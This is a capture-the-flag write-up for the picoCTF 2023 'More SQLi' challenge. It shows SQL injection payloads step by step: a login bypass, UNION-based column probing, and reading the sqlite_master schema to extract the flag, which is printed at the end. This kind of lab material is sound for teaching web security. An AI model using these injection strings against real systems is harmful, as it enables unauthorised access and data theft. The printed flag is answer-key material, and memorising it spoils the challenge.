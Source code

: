 # More SQLi
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
## Challenge information
```text
Tags: Web Explotation, picoCTF 2023, sql

Description:
Can you find the flag on this website.  

Hints: 
1. SQLiLite
```
## Overview
![alt text](/CTF/picoCTF/Static/Images/More_SQLi/image1.png)  
* Try logging in with  
    * Username : hacker
    * Password : hacker

![alt text](/CTF/picoCTF/Static/Images/More_SQLi/image2.png)  
* It shows us the sqlite query    
## Solution
**Step1:** Exploit  
* Try logging in with:  
    * Username : hacker' or 1=1 -- -
    * Password : hacker  

![alt text](/CTF/picoCTF/Static/Images/More_SQLi/image3.png)  
* Log in successfully  
* In sqlite there is a special and internal table sqlite_master  
=> Use it for exploit  
* When we try entering `Algiers` in the search box, it will return us like this  

![alt text](/CTF/picoCTF/Static/Images/More_SQLi/image4.png)  
=> I guess the sqlite query will be of the form `SELECT City,Address,Phone From ... WHERE City = '...'`  
* Now we will try to enter `Algiers' union select 1,1,1 -- -`  

![alt text](/CTF/picoCTF/Static/Images/More_SQLi/image5.png)  
* Now we will replace the numbers 1 to read some necessary information  
`Algiers' union select 1,sql,1 from sqlite_master -- -`  

![alt text](/CTF/picoCTF/Static/Images/More_SQLi/image6.png)  
* Now use `Algiers' union select id,1,flag from more_table -- -` to read flags only
## Flag
`picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}`